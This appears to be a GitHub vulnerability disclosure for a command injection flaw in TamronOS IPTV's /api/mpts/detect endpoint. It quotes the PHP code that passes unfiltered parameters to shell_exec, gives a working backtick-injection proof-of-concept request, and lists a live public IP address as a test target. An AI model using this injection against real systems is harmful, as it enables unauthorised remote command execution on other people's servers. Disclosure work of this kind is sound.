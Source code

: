 # Tamronos-iptv-detect-rce.md

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/

## Vulnerability Details

The detect() method in the `iptv/Controllers/MptsController.php` file does not perform filtering verification on the `$_GET['address']` , `$_GET['ip']` passed in by the user. Instead, it is directly passed into function shell_exec() and can be used `` Truncating the command resulted in command injection.

![detect](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/detect.jpg)

Code:
```
    public function detect(){

        $file = '/tmp/mptsdetect.log';
        Command::rm($file);
        $cmd = sprintf('/usr/bin/sudo /usr/bin/dvblast -D %s/udp/ifaddr=%s >null 2>%s &', $_GET['address'], $_GET['ip'], $file);
        shell_exec($cmd);
....
```
Access the /api/mpts/detect path to call the detect() method


## Recurrence vulnerability

Test version : TamronOS IPTV 8.6.3 、  TamronOS IPTV/VOD系统 v5


request 
```
/api/mpts/detect?address=aaaa&ip=`touch+/cgi/public/js/aaa.txt`
```
![request_detect](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/request_detect.jpg)

访问http://localhost.com/js/aaa.txt

![testok](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/.jpg)


Test url
```
http://103.95.24.37/
```
